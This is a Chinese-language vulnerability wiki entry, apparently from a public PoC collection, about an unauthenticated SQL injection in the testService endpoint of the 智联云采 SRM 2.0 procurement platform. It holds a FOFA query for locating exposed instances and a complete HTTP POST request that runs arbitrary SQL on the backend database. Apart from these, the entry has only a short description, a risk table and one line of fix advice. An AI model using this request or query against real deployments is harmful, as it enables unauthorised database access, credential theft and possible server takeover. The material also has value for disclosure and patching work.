

# 智联云采 SRM2.0 testService SQL注入漏洞

# 漏洞描述

由于智联云采 SRM2.0 testService 接口可未授权执行SQL语句，存在极大的安全风险，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

SRM 2.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="SRM 2.0"

POC/EXP：

POST /adpweb/a/ica/api/testService HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/json

{
    "dbId": "1001",
    "dbSql": "#set ($lang = $lang) SELECT * FROM v$version",
    "responeTemplate": "{\"std_data\": {\"execution\": {\"sqlcode\": \"$execution.sqlcode\", \"description\": \"$execution.description\"}}}",
    "serviceCode": "q",
    "serviceName": "q",
    "serviceParams": "{\"lang\":\"zh_CN\"}"
}

# 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
